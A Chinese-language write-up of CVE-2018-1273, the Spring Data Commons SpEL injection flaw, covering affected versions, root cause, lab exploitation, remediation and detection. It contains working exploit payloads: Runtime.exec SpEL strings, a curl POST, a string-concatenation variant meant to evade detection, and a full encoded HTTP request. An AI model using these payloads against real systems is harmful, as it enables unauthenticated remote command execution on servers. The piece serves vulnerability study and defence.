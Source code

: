 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 命令执行\_spring_CVE-2018-1273_Spring_Data_Commons 远程命令执行漏洞（利用方式二可绕过）

## <!-- more -->

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-201804-564)
>
> [NVD (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2018-1273)

---

**Spring Data**是一个用于简化数据库访问，并支持云服务的开源框架，其主要目标是使数据库的访问变得方便快捷。**Spring Data Commons**是 Spring Data 下所有子项目共享的基础框架。

Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 在 2.0.5 及以前版本中，组件中存在远程代码执行漏洞，攻击者可构造包含有恶意代码的 SPEL 表达式实现远程代码攻击，直接获取服务器控制权限。

---

### 漏洞危害

未经身份验证的远程恶意用户（或攻击者）可以针对 Spring Data REST 支持的 HTTP 资源提供特制的请求参数，或者使用 Spring Data 的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 影响范围

- Spring Data Commons 1.13 to 1.13.10 (Ingalls SR10)
- Spring Data REST 2.6 to 2.6.10 (Ingalls SR10)
- Spring Data Commons 2.0 to 2.0.5 (Kay SR5)
- Spring Data REST 3.0 to 3.0.5 (Kay SR5)
- Older unsupported versions are also affected

---

## 漏洞原理

Spring Data Commons（1.13 至 1.13.10 之前的版本，2.0 至 2.0.5 的版本以及较旧的不受支持的版本）包含由于特殊元素的不正确中和而导致的属性绑定器漏洞。未经身份验证的远程恶意用户（或攻击者）可以针对 Spring Data REST 支持的 HTTP 资源提供特制的请求参数，或者使用 Spring Data 的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 源码分析

Spring 在自动解析用户的参数的时候采用了 SpelExpressionParser 来解析 propertyName，但是并没有对参数进行进行有效的校验，

![img1](./img/spring_CVE-2018-1273_bypass/img1.png)

---

## 漏洞利用

---

### 靶机环境

自建环境，见文件夹内的.jar 文件

---

### 利用方式 1

---

#### 利用思路

利用 this.getClass().forName("java.lang.Runtime").getRuntime().exec()函数构造 payload 进行代码执行漏洞利用

---

#### 漏洞利用

1）访问 http://ip:8080/account

![img4](./img/spring_CVE-2018-1273_bypass/img4.png)

2. 发送 payload：这里尝试了两种方法，建议采用第二种。

- 方法一：firefox 浏览器 F12 打开，选择 network，点击 reload 后得到请求包，再点击 resend 即可在浏览器上直接修改请求。如下

![img3](./img/spring_CVE-2018-1273_bypass/img3.png)

构造攻击数据，修改为 POST 请求，payload 部分填写如下：

```
[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch aa.txt")]
```

- 方法二：执行命令

```
curl -X POST http://192.168.1.189:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch aa.txt')]=123"
```

![img2](./img/spring_CVE-2018-1273_bypass/img2.png)

3）攻击成功，结果如下：

![img7](./img/spring_CVE-2018-1273_bypass/img7.png)

### 利用方式 2(绕过)

---

#### 利用思路

修改 payload 为如下形式：

```
name[#this.getClass().forName('ja'+'va.l'+'ang.Run'+'time').getRuntime().exec('touch test22.txt')]=123
```

将原本的 payload 利用+拼接。

---

#### 漏洞利用

使用 hackbar 插件，发送如下，

![img14](./img/spring_CVE-2018-1273_bypass/img14.png)

这里选择 hackbar 的原因是编码方式的问题，若使用 burpsuite，请求包如下：

```
POST /account HTTP/1.1
Host: 192.168.1.189:8080
Connection: keep-alive
Content-Length: 150
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.189:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.189:8080/account
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

name%5B%23this.getClass%28%29.forName%28%27ja%27%2B%27va.l%27%2B%27ang.Run%27%2B%27time%27%29.getRuntime%28%29.exec%28%27touch+test22.txt%27%29%5D=123
```

攻击成功，结果如下：

![img15](./img/spring_CVE-2018-1273_bypass/img15.png)

---

## 威胁防护建议

---

### 用户处置建议

升级框架到最新版本。将 Spring Data Commons 框架的版本由 2.0.x 升级到 2.0.6，1.13.x 的用户升级到 1.13.11。

---

### 产品检测建议

可针对[#this.getClass().forName('java.lang.Runtime').getRuntime().exec()的命令及其拼接的形式进行检测。

---

# 附录

## 靶场搭建方法

代码下载：https://github.com/wearearima/poc-cve-2018-1273

编译后打成 jar 包（见 poc 文件夹）

```
cd ./poc
java -jar poc-cve-2018-1273-0.0.1-SNAPSHOT.jar
```
